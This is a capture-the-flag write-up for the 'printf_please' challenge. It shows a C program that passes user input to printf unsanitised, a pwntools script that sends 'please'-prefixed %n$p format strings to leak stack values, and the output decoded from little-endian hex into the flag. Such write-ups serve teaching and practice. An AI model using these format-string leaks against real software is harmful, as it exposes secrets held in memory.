 # printf_please

## Initial Exploration

The authors of this challenge have provided a source file so we first take a look at that.

```c
--snipped--

    char buffer[0x200];
    char flag[0x200];

--snipped--

    read(0, buffer, sizeof(buffer) - 1);
    buffer[strcspn(buffer, "\n")] = 0;

    if (!strncmp(buffer, "please", 6)) {
        printf(buffer);
        puts(" to you too!");
    }
```

Here, we are provided with a buffer that we can write into and a flag conveniently located right after it. There is also a printf vulnerability that we can exploit to leak the flag, since our input is not sanitised.

Essentially, we can input something like `%p %p %p` and it'll try to print three pointers on the stack when printf is called. Another way to exploit this is to enter something like `%3$p`, which will grab the 3rd pointer without us having to write multiple `%p` s.

Note that because of this if check,

```c 
if (!strncmp(buffer, "please", 6))
```

the first 6 characters to our input have to begin with the word 'please' in order to reach the printf line.

## Searching for the flag
To do this, we make use of pwntools, a python package to automatically send input to our program.

```python
def initial_search():
    for i in range(0, 80):
        try:
            print("i is: {}".format(i))
            p = process(BINARY)
            p.recvline()
            p.sendline('please 0x%{}$08p'.format(i))
            print(p.recvline())
            p.close()

            print()
        except EOFError:
            pass
```

Here we keep entering the input `please 0x%{n}$08p` with n from 0 to 80 to try to see where our flag is located at.

Most of our search returns rubbish information. 

```bash
$ python solve.py

i is: 0
b'please 0x%0$08p to you too!\n'

i is: 1
b'please 0x0x7fffe10add66 to you too!\n'

i is: 2
b'please 0x0x000001 to you too!\n'

i is: 3
b'please 0x   (nil) to you too!\n'

...
```

We're looking for a flag that starts with `flag{` which is `66 6c 61 67 7b` in hex. However, most programs store data in little-endian format, so we are actually looking for something like `7b 67 61 6c 66`.

Scrolling down more we eventually find something like this:

``` bash
$ python solve.py
...

i is: 70
b'please 0x0x336c707b67616c66 to you too!\n'

i is: 71
b'please 0x0x6e3172705f337361 to you too!\n'

i is: 72
b'please 0x0x5f687431775f6674 to you too!\n'

i is: 73
b'please 0x0x5f6e303174756163 to you too!\n'

i is: 74
b'please 0x0x6464636362626161 to you too!\n'

...
```

Which looks like our flag! All we have to do now is to run it remotely, reverse the endianness and convert back to ASCII characters.

`flag{pl3as3_pr1ntf_w1th_caut10n_9a3xl}`
